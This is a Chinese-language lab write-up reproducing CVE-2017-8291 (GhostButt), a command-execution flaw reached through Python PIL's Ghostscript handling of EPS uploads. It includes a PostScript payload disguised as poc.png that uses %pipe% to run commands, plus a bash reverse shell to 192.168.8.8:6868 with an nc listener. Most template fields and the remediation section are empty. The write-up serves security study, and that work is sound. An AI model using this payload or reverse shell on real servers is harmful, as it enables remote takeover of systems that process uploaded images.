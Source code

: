 # Python PIL 远程命令执行漏洞（GhostButt ）

# 

| 说明     | 内容                 |
| -------- | -------------------- |
| 漏洞编号 | PIL-CVE-2017-8291    |
| 漏洞名称 | PIL 远程命令执行漏洞 |
| 漏洞评级 |                      |
| 影响范围 |                      |
| 漏洞描述 |                      |
| 修复方案 |                      |

### 1.1、漏洞描述

**PIL** (Python Image Library) 应该是 Python 图片处理库中运用最广泛的，它拥有强大的功能和简洁的API。很多Python Web应用在需要实现处理图片的功能时，都会选择使用PIL

PIL在对` eps` 图片格式进行处理的时候，如果环境内装有 GhostScript，则会调用 GhostScript 在dSAFER模式下处理图片，即使是最新版本的PIL模块，也会受到 `GhostButt CVE-2017-8291` dSAFER模式Bypass漏洞的影响，产生命令执行漏洞。



[漏洞原理](http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/?spm=a2c6h.12873639.article-detail.7.2b5166698W11xt)

### 1.2、漏洞等级

### 1.3、影响版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/python/PIL-CVE-2017-8291

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8000/`即可看到

![image-20230911193127003](./imgs/image-20230911193127003.png)

#### 2、漏洞扫描



#### 3、漏洞验证

正常功能是上传一个PNG文件，后端调用PIL加载图片，输出长宽。攻击者可以上传EPS文件后缀修改为PNG进行文件上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查

上传`poc.png`

![image-20230911193842423](./imgs/image-20230911193842423.png)

`poc.png`代码主要部分:

在`/tmp`目录下创建`aaaaa`

```python
currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```



![image-20230911194000006](./imgs/image-20230911194000006.png)

上传后返回 了图片的长度和高度

![image-20230911194238498](./imgs/image-20230911194238498.png)

![image-20230911194337368](./imgs/image-20230911194337368.png)



### 1.5、深度利用

#### 1、反弹Shell

修改`poc.png`内容，重新上传，反弹shell到kali机器上

```bash
bash -c "bash -i &> /dev/tcp/192.168.8.8/6868 0>&1"
```



![image-20230911194948322](./imgs/image-20230911194948322.png)

kali监听`6868`端口

```
nc -lvp 6868
```

![image-20230911194927892](./imgs/image-20230911194927892.png)

### 1.6、修复建议